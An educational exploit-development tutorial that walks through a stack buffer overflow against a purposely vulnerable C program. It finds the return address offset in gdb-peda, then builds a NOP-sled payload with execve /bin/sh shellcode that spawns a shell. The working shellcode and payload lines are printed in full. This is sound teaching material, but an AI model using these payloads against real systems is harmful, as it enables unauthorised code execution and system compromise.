

All the content on this website, including this post, is intended for educational use only. The techniques and processes presented should only be used against systems you own or have explicit written permission to target. Otherwise, you are breaking the Law - be smart. The author/s of this website will not accept any liability for misuse of this content.
Our New Improved Program
For the time being, we will depart from our login.c example. We will focus on exploiting another program called simple_overflow.c.
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int say_hi(name) {
char buffer[200];
strcpy(buffer, name);
printf("Hello %s\n", buffer);
return 0;
}
int main(int argc, char *argv[]) {
say_hi(argv[1]);
}
We thank Ars Technica [1] for the inspiration behind this example. As you can see the user specifies their name to the program as a command-line argument. A function is then called with this argument as a parameter. The function say_hi declares a buffer of size 200 bytes and copies our user input (argv[1] renamed to 'name' in the function) into the buffer. This is done without any checks on the length of the user input written to the buffer. Hence we can write data of arbitrary size into the buffer. This will cause a Stack overflow if the length of our input is greater than 200 characters. Let's see this in action.
debug@lbuntu:~/Documents/exploitdev/chapter2/stack$ gcc -fno-stack-protector -z execstack -o simple_overflow simple_overflow.c debug@lbuntu:~/Documents/exploitdev/chapter2/stack$ ./simple_overflow $(perl -e 'print "A"x210') Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA Segmentation fault (core dumped) debug@lbuntu:~/Documents/exploitdev/chapter2/stack$
Let's have a look at the Stack frame in this instance.
The data written to the Stack frame due to the overflow
As you can see we have partially overwritten the saved EBP on the Stack. When this value is restored (into the EBP register) after the function has executed, the program will try and access data relative to this address on the Stack. However, EBP now points to a non-sensical address and the program crashes.
Installing Peda
As you might have guessed our program is in no way ‘improved’ and is just as exploitable as login.c (even more so as we shall soon see). To aid us with exploiting this program, we will install a plugin for gdb called Peda. The installation of Peda is fairly straightforward.
git clone https://github.com/longld/peda.git ~/peda echo "source ~/peda/peda.py" >> ~/.gdbinit
When we load up gdb it will look a little different - cooler even. We have a good knowledge of what the Stack frame looks like now and we should be able to overwrite RET with little effort.
debug@lbuntu:~/Documents/exploitdev/chapter2/stack$ gdb ./simple_overflow
GNU gdb (Ubuntu 8.2-0ubuntu1~18.04) 8.2
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later http://gnu.org/licenses/gpl.html
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
http://www.gnu.org/software/gdb/bugs/.
Find the GDB manual and other documentation resources online at:
http://www.gnu.org/software/gdb/documentation/.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./simple_overflow...(no debugging symbols found)...done.
gdb-peda$ run a
Starting program: /home/debug/Documents/exploitdev/chapter2/stack/simple_overflow a
Hello a
[Inferior 1 (process 1607) exited normally]
Warning: not running
gdb-peda$ disas say_hi
Dump of assembler code for function say_hi:
0x0040054d <+0>: push ebp
0x0040054e <+1>: mov ebp,esp
0x00400550 <+3>: push ebx
0x00400551 <+4>: sub esp,0xd4
0x00400557 <+10>: call 0x400450 <__x86.get_pc_thunk.bx>
0x0040055c <+15>: add ebx,0x1a78
0x00400562 <+21>: mov eax,DWORD PTR [ebp+0x8]
0x00400565 <+24>: sub esp,0x8
0x00400568 <+27>: push eax
0x00400569 <+28>: lea eax,[ebp-0xd0]
0x0040056f <+34>: push eax
0x00400570 <+35>: call 0x4003e0 strcpy@plt
0x00400575 <+40>: add esp,0x10
0x00400578 <+43>: sub esp,0x8
0x0040057b <+46>: lea eax,[ebp-0xd0]
0x00400581 <+52>: push eax
0x00400582 <+53>: lea eax,[ebx-0x1974]
0x00400588 <+59>: push eax
0x00400589 <+60>: call 0x4003d0 printf@plt
0x0040058e <+65>: add esp,0x10
0x00400591 <+68>: mov eax,0x0
0x00400596 <+73>: mov ebx,DWORD PTR [ebp-0x4]
0x00400599 <+76>: leave
0x0040059a <+77>: ret
End of assembler dump.
gdb-peda$ break *0x00400589
Breakpoint 1 at 0x400589
gdb-peda$ run $(perl -e 'print "A"x212 . "B"x4')
Starting program: /home/debug/Documents/exploitdev/chapter2/stack/simple_overflow $(perl -e 'print "A"x212 . "B"x4')
[----------------------------------registers-----------------------------------]
EAX: 0x400660 ("Hello %s\n")
EBX: 0x401fd4 --> 0x1edc
ECX: 0xbffff760 ("AAAABBBB")
EDX: 0xbffff448 ("AAAABBBB")
ESI: 0xb7fba000 --> 0x1d7d6c
EDI: 0x0
EBP: 0xbffff448 ("AAAABBBB")
ESP: 0xbffff360 --> 0x400660 ("Hello %s\n")
EIP: 0x400589 (say_hi+60: call 0x4003d0 printf@plt)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x400581 say_hi+52>: push eax
0x400582 say_hi+53>: lea eax,[ebx-0x1974]
0x400588 say_hi+59>: push eax
=> 0x400589 say_hi+60>: call 0x4003d0 printf@plt>
0x40058e say_hi+65>: add esp,0x10
0x400591 say_hi+68>: mov eax,0x0
0x400596 say_hi+73>: mov ebx,DWORD PTR [ebp-0x4]
0x400599 say_hi+76>: leave
Guessed arguments:
arg[0]: 0x400660 ("Hello %s\n")
arg[1]: 0xbffff378 ('A' repeats 200 times>...)
[------------------------------------stack-------------------------------------]
0000| 0xbffff360 --> 0x400660 ("Hello %s\n")
0004| 0xbffff364 --> 0xbffff378 ('A' repeats 200 times>...)
0008| 0xbffff368 --> 0xb7fffd8c --> 0xb7fffc44 --> 0xb7fffc30 --> 0xb7fd7000 (jg 0xb7fd7047)
0012| 0xbffff36c --> 0x40055c (say_hi+15>: add ebx,0x1a78)
0016| 0xbffff370 --> 0xbffff460 --> 0xb7fe79e0 (_dl_fini>: push ebp)
0020| 0xbffff374 --> 0x0
0024| 0xbffff378 ('A' repeats 200 times>...)
0028| 0xbffff37c ('A' repeats 200 times>...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Breakpoint 1, 0x00400589 in say_hi ()
gdb-peda$ info registers
eax 0x400660 0x400660
ecx 0xbffff760 0xbffff760
edx 0xbffff448 0xbffff448
ebx 0x401fd4 0x401fd4
esp 0xbffff360 0xbffff360
ebp 0xbffff448 0xbffff448
esi 0xb7fba000 0xb7fba000
edi 0x0 0x0
eip 0x400589 0x400589 say_hi+60>
eflags 0x292 [ AF SF IF ]
cs 0x73 0x73
ss 0x7b 0x7b
ds 0x7b 0x7b
es 0x7b 0x7b
fs 0x0 0x0
gs 0x33 0x33
gdb-peda$ info frame
Stack level 0, frame at 0xbffff450:
eip = 0x400589 in say_hi; saved eip = 0x42424242
called by frame at 0xbffff454
Arglist at 0xbffff448, args:
Locals at 0xbffff448, Previous frame's sp is 0xbffff450
Saved registers:
ebx at 0xbffff444, ebp at 0xbffff448, eip at 0xbffff44c
gdb-peda$
We run the program first so we can see exactly where the program is loaded into memory when we disassemble it. We set a breakpoint immediately after the program copies our input to the buffer. As you can see after the copy we have successfully overwritten the Stack. The RET address is located at an offset of 212 bytes from the start of the buffer. This allows us to locate and overwrite the contents of RET.
We successfully overwrite RET.
This is well and good but we could only do this as we have a good knowledge of the structure of the Stack frame. With more complicated programs this might not be possible or at least not practical. Let's have a look at a more general approach to overwriting the return address.
The Unique String Method to Overwrite RET
Up to this point, we have been inputting a string of A characters to the program. Hence if the RET address is overwritten by As it is not possible to get any information about the offset at which RET is located from the buffer since the string we input is identical everywhere. E.g the As at the start of the buffer are indistinguishable from the As at the end of the buffer.
Instead of doing this, we will send a unique string to the application. Once we've located the 4 bytes that overwrite RET we will be able to determine the offset at which RET was overwritten. Let's see this in action.
Firstly we create a unique string of length 300 using a tool called pattern create. This string is longer than 200 and, as we have seen, will cause a buffer overflow when given as input to the program. We save this string to buffer.txt.
gdb-peda$ pattern create 300 buffer.txt Writing pattern of 300 chars to filename "buffer.txt" gdb-peda$
Now we specify the unique string as our input, aka the contents of buffer.txt
gdb-peda$ run $(cat ./buffer.txt) Starting program: /home/debug/Documents/exploitdev/chapter2/stack/simple_overflow $(cat ./buffer.txt) ... Breakpoint 1, 0x00400589 in say_hi () gdb-peda$
We encounter our breakpoint (remember this is immmediatly after our string has been copied to the buffer). Now we can analyse the contents of the return address.
gdb-peda$ info frame Stack level 0, frame at 0xbffff3f0: eip = 0x400589 in say_hi; saved eip = 0x25412425 called by frame at 0xbffff3f4 Arglist at 0xbffff3e8, args: Locals at 0xbffff3e8, Previous frame's sp is 0xbffff3f0 Saved registers: ebx at 0xbffff3e4, ebp at 0xbffff3e8, eip at 0xbffff3ec gdb-peda$
As you can see RET has been overwritten with 0x25412425. All that is left to do is to determine where these 4 bytes appear in our unique string. Luckily there is a tool called pattern offset that will do this for us.
gdb-peda$ pattern offset 0x25412425 625026085 found at offset: 212 gdb-peda$
As expected pattern offset has calculated the offset of the RET address to be 212 bytes. This is what we found before via our manual Stack frame analysis. This is a better, general approach to finding the offset of RET. We can now overwrite RET with the payload $(perl -e ‘print “A”x212 . “B”.4’) as before.
gdb-peda$ run $(perl -e 'print "A"x212 . "B"x4') Starting program: /home/debug/Documents/exploitdev/chapter2/stack/simple_overflow $(perl -e 'print "A"x212 . "B"x4') ... Breakpoint 1, 0x00400589 in say_hi () gdb-peda$ info frame Stack level 0, frame at 0xbffff450: eip = 0x400589 in say_hi; saved eip = 0x42424242 called by frame at 0xbffff454 Arglist at 0xbffff448, args: Locals at 0xbffff448, Previous frame's sp is 0xbffff450 Saved registers: ebx at 0xbffff444, ebp at 0xbffff448, eip at 0xbffff44c gdb-peda$
The Structure of our Exploit
We are now at a point where we can develop an exploit for our application. Before we dive into the details lets get an overview of the exploit's structure.
At this point, we've overwritten RET which will write an arbitrary memory address of our choosing into the EIP. We now need to decide where to redirect execution. We would ideally like to execute arbitrary code that we control. Let's take a closer look at the what we've got so far.
This is our exploit so far. We have a string of 212 A's and we overwrite the RET address with BBBB.
At the moment we don't have any code that is suitable to execute in this exploit. However, there is space for this code in place of the A's that we have sent to the program. The plan is to replace our As with some exploit code.
But what does our exploit code look like and what should it do? Well since this is a running program the CPU will only be able to run machine code - there is no use putting C code in here! As such we will have to inject machine code into the program. Writing machine code is not a trivial pursuit. This is covered in the Shellcode Section of this website.
In terms of what our exploit code should do, we can make it do whatever we want. We could write code that writes to a file, creates a new user with sudo privileges or simply spawn a shell. We will opt for the shell spawning option. The following sequence of bytes will, when executed, spawn a shell [2].
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
Lets indeed verify this by compiling and running the following script which will execute these sequence of commands.
#include <stdio.h>
#include <string.h>
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
"\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
int main(void)
{
fprintf(stdout,"Length: %d\n",strlen(shellcode));
(*(void(*)()) shellcode)();
return 0;
}
debug@lbuntu:~/Documents/exploitdev/chapter2/stack$ gcc -o shell shell.c debug@lbuntu:~/Documents/exploitdev/chapter2/stack$ ./shell Length: 23 $ id uid=1000(debug) gid=1000(debug) groups=1000(debug),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),122(sambashare) $
Indeed we are greeted with a shell so we know that the Shellcode works.
The next step is to redirect the program to our Shellcode for execution. There is one main problem with doing this - how do we know which address to go to? Determining the address at which our Shellcode resides it not trivial. Slight changes in the way the program is loaded into memory can change the location of our Shellcode in memory. If we are not careful this could break our exploit as we may jump to the wrong address. However we have a trick up our sleeve.
The \x90 character is the NOP or no operation command in Assembly. When this command is seen by the CPU it does nothing and moves to the next instruction. This is generally used for timing purposes within a program. We will use it to increase the address range that we can jump to and still have our Shellcode execute.
This is our exploit now. We have a NOP Sled to 'catch' the program and slide execution towards our Shellcode. We write the memory address several times to maximise our chances of overwriting RET if the program is written to memory in a slightly different format. It's not shown in this picture but we include 3 A characters to align the memory address written to RET correctly. See the exploit code below.
Exploit code: $(perl -e 'print "\x90"x150 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" . "A"x3 . "BBBB"x10')
This is what our exploit looks like now. We've ensured that the length of the exploit is 216 bytes long as before. This was calculated as 150 + 23 + 3 + 4x10 = 216 where 23 is the length of out Shellcode. The As are include to align the return address. The RET address will point into our string of NOP characters, known as a NOP Sled. We repeat our return address (Bs at the moment) several times to increase the odds of us overwriting RET in case the layout of memory changes slightly. The program will see each of the \x90 instructions and simply do nothing and pass to the next instruction. This will continue until the program reaches our Shellcode. As long as we land somewhere in this NOP Sled our program will get to our exploit code. Let's find an address that will be inside our NOP Sled.
gdb-peda$ run $(perl -e 'print "\x90"x150 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" . "A"x3 . "BBBB"x10') Starting program: /home/debug/Documents/exploitdev/chapter2/stack/simple_overflow $(perl -e 'print "\x90"x150 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" . "A"x3 . "BBBB"x10') ... Breakpoint 1, 0x00400589 in say_hi () gdb-peda$ x/64xw $esp 0xbffff360: 0x00400660 0xbffff378 0xb7fffd8c 0x0040055c 0xbffff370: 0xbffff460 0x00000000 0x90909090 0x90909090 0xbffff380: 0x90909090 0x90909090 0x90909090 0x90909090 0xbffff390: 0x90909090 0x90909090 0x90909090 0x90909090 0xbffff3a0: 0x90909090 0x90909090 0x90909090 0x90909090 0xbffff3b0: 0x90909090 0x90909090 0x90909090 0x90909090 0xbffff3c0: 0x90909090 0x90909090 0x90909090 0x90909090 0xbffff3d0: 0x90909090 0x90909090 0x90909090 0x90909090 (We will jump to this address) 0xbffff3e0: 0x90909090 0x90909090 0x90909090 0x90909090 0xbffff3f0: 0x90909090 0x90909090 0x90909090 0x90909090 0xbffff400: 0x90909090 0x90909090 0x90909090 0xc0319090 (Start of our Shellcode) 0xbffff410: 0x2f2f6850 0x2f686873 0x896e6962 0x895350e3 0xbffff420: 0xcd0bb0e1 0x41414180 0x42424242 0x42424242 0xbffff430: 0x42424242 0x42424242 0x42424242 0x42424242 0xbffff440: 0x42424242 0x42424242 0x42424242 0x42424242 0xbffff450: 0xbffff600 0xbffff514 0xbffff520 0x004005b1 gdb-peda$
We can see our NOP characters on the Stack as well as our return address repeated several times. Now, all we need to do is pick an address in the middle of these characters. For example, the memory address 0xbffff3d6 contains a long series of NOP characters before and after it. This should account for any small fluctuations in where the program is loaded in memory. Let's add this address to our exploit.
Exploit code: $(perl -e 'print "\x90"x150 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" . "A"x3 . "\xd6\xf3\xff\xbf"x10')
The address is written in backward as Intel x86 uses Little Endian format. Lets set a breakpoint at this address and at 0xbffff40e, the address that our Shellcode starts.
gdb-peda$ break *0xbffff3d6 Breakpoint 2 at 0xbffff3d6 gdb-peda$ break *0xbffff40e Breakpoint 3 at 0xbffff40e gdb-peda$
Now, let's run our exploit and see what happens.
gdb-peda$ run $(perl -e 'print "\x90"x150 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" . "A"x3 . "\xd6\xf3\xff\xbf"x10') Starting program: /home/debug/Documents/exploitdev/chapter2/stack/simple_overflow $(perl -e 'print "\x90"x150 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" . "A"x3 . "\xd0\xf3\xff\xbf"x10') ... Breakpoint 1, 0x00400589 in say_hi () gdb-peda$ info frame Stack level 0, frame at 0xbffff450: eip = 0x400589 in say_hi; saved eip = 0xbffff3d6 called by frame at 0xbffff3d8 Arglist at 0xbffff448, args: Locals at 0xbffff448, Previous frame's sp is 0xbffff450 Saved registers: ebx at 0xbffff444, ebp at 0xbffff448, eip at 0xbffff44c gdb-peda$
At our first breakpoint, we see that the address we selected in the middle of our NOP characters (0xbffff3d0) overwrites RET. The program should begin executing commands at this instruction after this memory location is loaded into EIP and we should encounter our second breakpoint.
gdb-peda$ continue
Continuing.
Hello ����������������������������������������������������������������������������������������̐��������������������������������������������������������������Ph//shh/bin��PS���
AAA����������������������������������������
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0xbffff3d0 --> 0x90909000
ECX: 0x0
EDX: 0xb7fbb890 --> 0x0
ESI: 0xb7fba000 --> 0x1d7d6c
EDI: 0x0
EBP: 0xbffff3d0 --> 0x90909000
ESP: 0xbffff450 --> 0xbffff600 --> 0x0
EIP: 0xbffff3d6 --> 0x90909000
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0xbffff3cd: nop
0xbffff3ce: nop
0xbffff3cf: nop
=> 0xbffff3d0: add BYTE PTR [eax-0x6f6f6f70],dl
0xbffff3d6: nop
0xbffff3d7: nop
0xbffff3d8: nop
0xbffff3d9: nop
[------------------------------------stack-------------------------------------]
0000| 0xbffff450 --> 0xbffff600 --> 0x0
0004| 0xbffff454 --> 0xbffff514 --> 0xbffff650 ("/home/debug/Documents/exploitdev/chapter2/stack/simple_overflow")
0008| 0xbffff458 --> 0xbffff520 --> 0xbffff769 ("LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc"...)
0012| 0xbffff45c --> 0x4005b1 (main+22>: add eax,0x1a23)
0016| 0xbffff460 --> 0xb7fe79e0 (_dl_fini>: push ebp)
0020| 0xbffff464 --> 0xbffff480 --> 0x2
0024| 0xbffff468 --> 0x0
0028| 0xbffff46c --> 0xb7dfae91 (__libc_start_main+241>: add esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Breakpoint 2, 0xbffff3d6 in ?? ()
gdb-peda$
Indeed this happens! See that the address in the middle of our NOP characters is written into EIP. Now the program should slide down our NOP Sled into our Shellcode which will trigger our third breakpoint.
gdb-peda$ continue
Continuing.
Hello ����������������������������������������������������������������������������������������̐��������������������������������������������������������������Ph//shh/bin��PS���
AAA����������������������������������������
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0xbffff3d6 --> 0x90909090
ECX: 0x0
EDX: 0xb7fbb890 --> 0x0
ESI: 0xb7fba000 --> 0x1d7d6c
EDI: 0x0
EBP: 0xbffff3d6 --> 0x90909090
ESP: 0xbffff450 --> 0xbffff600 --> 0x0
EIP: 0xbffff40e --> 0x6850c000
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0xbffff40b: nop
0xbffff40c: nop
0xbffff40d: nop
=> 0xbffff40e: add al,al
0xbffff410: push eax
0xbffff411: push 0x68732f2f
0xbffff416: push 0x6e69622f
0xbffff41b: mov ebx,esp
[------------------------------------stack-------------------------------------]
0000| 0xbffff450 --> 0xbffff600 --> 0x0
0004| 0xbffff454 --> 0xbffff514 --> 0xbffff650 ("/home/debug/Documents/exploitdev/chapter2/stack/simple_overflow")
0008| 0xbffff458 --> 0xbffff520 --> 0xbffff769 ("LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc"...)
0012| 0xbffff45c --> 0x4005b1 (main+22>: add eax,0x1a23)
0016| 0xbffff460 --> 0xb7fe79e0 (<_dl_fini>: push ebp)
0020| 0xbffff464 --> 0xbffff480 --> 0x2
0024| 0xbffff468 --> 0x0
0028| 0xbffff46c --> 0xb7dfae91 (<__libc_start_main+241>: add esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Breakpoint 3,
As we can see from the code section of gdb-peda's output we are about to execute our Shellcode. When we continue execution the program should run our code and we should get a Shell.
gdb-peda$ continue Continuing. process 1731 is executing new program: /bin/dash $ id [Attaching after process 1731 fork to child process 1734] [New inferior 2 (process 1734)] [Detaching after fork from parent process 1731] [Inferior 1 (process 1731) detached] process 1734 is executing new program: /usr/bin/id [Thread debugging using libthread_db enabled] Using host libthread_db library "/lib/i386-linux-gnu/libthread_db.so.1". warning: Error reading shared library list entry at 0xffffd030 uid=1000(debug) gid=1000(debug) groups=1000(debug),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),122(sambashare) $ [Inferior 2 (process 1734) exited normally] Warning: not running gdb-peda$
Woo, we get a Shell - our exploit works! Unfortunately, we cannot interact with our shell for more than one command inside gdb but we've done it nonetheless. Let's go over what our exploit did.
1) We overwrote RET which loaded a memory address of our choosing into EIP
2) The program jumped to our NOP Sled which we wrote to the Stack at the beginning of the Stack Frame.
3) The program slid down our NOP Sled to our Shellcode.
4) The Shellcode executed and spawned a Shell.
Next time we will improve our exploit code so it works more efficiently. We will also go over the process of identifying bad characters that the program cannot accept that must not be included in our exploit. In some cases bad characters can break an exploit that would otherwise. Therefore it is an essential part of the exploit development process.
References:
[1] Ars Technica, How Buffer Overflows work: overwriting the return address https://www.youtube.com/watch?v=LkqZ8I2FVuQ
[2] http://shell-storm.org/shellcode/files/shellcode-827.php
[3] https://en.wikipedia.org/wiki/Shellcode
[4] https://en.wikipedia.org/wiki/Endianness
Hacking The Art of Exploitation, 2nd Edition, Jon Erickson